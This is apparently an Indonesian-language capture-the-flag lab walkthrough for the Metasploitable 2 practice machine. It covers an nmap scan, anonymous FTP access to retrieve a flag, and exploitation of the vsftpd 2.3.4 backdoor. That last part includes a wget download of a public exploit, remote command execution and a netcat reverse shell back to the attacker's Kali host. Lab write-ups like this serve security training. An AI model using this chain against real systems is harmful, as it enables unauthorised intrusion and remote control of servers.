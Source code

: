 # Metasploitable 2

## NMAP Scan
```
nmap -sC -sV <ip_target>
```
> -sC = Menjalankan default enumeration script
-sV = Mengecek versi dari setiap service yang up

Dari hasil NMAP ditemukan berbagai macam port yang open. Mengacu pada Metode Uji Ringkas, kita akan prioritaskan service yang memiliki akses langsung ke server, dalam hal ini terdapat FTP pada Port 21.

## FTP Anonymous login
Dari hasil scan ditemukan terdapat FTP service running pada port 21, dengan Anonymous login allowed. Didalam FTP tersebut terdapat file check_me.txt, maka kita coba untuk download file tersebut.
```
$ sudo nmap -sC -sV 10.0.2.4
.
.
.
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              20 Jun 26 16:02 check_me.txt
| ftp-syst:
|   STAT:
.
.

```
```
ftp <ip_target>
Username = Anonymous
Password = <Bebas, silahkan langsung di enter saja>
```

Untuk melist file di dalam FTP, gunakan command ls
```
ls
```

Kemudian download file check_me.txt menggunakan command get
```
get check_me.txt
exit
```

Kemudian baca file check_me.txt tersebut. Flag dapat disubmit ke platform ctf di https://104.198.70.58

## VSFTPD Exploit
Mengacu kembali kepada metode uji ringkas, setelah mengecek komponen utama "Configuration" dengan login ke FTP Anonymous login, selanjutnya kita lakukan uji pada komponen "Outdated Version".

Kita ketahui, dari hasil NMAP, versi FTP yang digunakan adalah VSFTPD 2.3.4 . Selanjutnya kita coba lakukan googling untuk mencari adanya kerentanan dan public exploit versi vsftpd tersebut.

```
Googling : VSFTPD 2.3.4 Exploit
```
Source utama yang kita cari adalah pada exploit-db.com dan github. Pertama, kita temukan eksploit pada exploit-db, namun exploit tersebut belum verified, sehingga ada kemungkinan exploit tersebut tidak berjalan sebagaimana mestinya. Selanjutnya, kita temukan exploit pada github milik ahervias77. Selanjutnya kita download exploit tersebut.

```
wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py
```

Next, kita coba jalankan exploitnya

```
python3 vsftpd_234_exploit.py
```
Terlihat cara penggunaan dari exploit tersebut adalah :
```
Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>
Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami
```
Kemudian kita exploit :
```
python3 vsftpd_234_exploit.py 10.0.2.4 21 whoami
```
Berhasil!

Selanjutnya kita establish reverse shell , pertama buat listener terlebih dahulu di Kali:
```
nc -nlvp 4444
```
Execute exploit dengan reverse shell commands
```
python3 vsftpd_234_exploit.py 10.0.2.4 21 "nc -nv <IP_Kali> 4444 -e /bin/bash"
```

Upgrade ke interactive shell (Cek Cheat Sheet)

Ambil flag

Selesai!
